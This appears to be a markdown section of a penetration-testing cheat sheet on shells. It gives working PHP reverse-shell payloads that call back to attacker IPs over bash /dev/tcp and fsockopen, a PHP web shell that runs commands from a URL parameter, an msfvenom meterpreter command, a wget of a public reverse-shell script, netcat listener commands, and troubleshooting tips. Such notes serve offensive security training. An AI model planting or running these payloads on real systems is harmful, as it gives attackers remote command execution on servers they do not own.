 #### Shells

* PHP Reverse Shell
	* Linux
		Create a php shell (test.php) and host it 
		```lsal
		<?php echo shell_exec("ls -al");?>
		```
		If above works, test reverse shell from pentest monkey

		```pentestmonkey
		<?php echo shell_exec("bash -i >& /dev/tcp/10.11.0.65/443 0>&1");?>
		```
		When inserting a payload, try host IP and http://hostIP

		Set up listener

		```
		nc -nlvp 443
		```
	* another php shell (if no shell exec on linux)
		```
		<?php $sock = fsockopen("10.11.0.99",443);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
		```
		[Reverse Shell Details](http://lerned.wikidot.com/reverse-shell-command)

		Set up listener
		```
		nc -nlvp 443
		```
	* Windows
		```
		<?php echo(system($_GET["cmd"])); ?>
		```
		Go to http://victimsite.com/test.php?cmd=dir for command execution 

		* [Windows PHP Reverse Shell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)
			* Need to modify tmpdir to make it work; play around with it
		* Msfvenom
			```
			msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
			```
	* [Other languages/compabibility](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	* [Full shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
		* wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
	* Reverse Shell Not working
		* Try hosting it on port 80 or 443
		* Try using Apache webserver
		* Try including the reverse shell with http or https
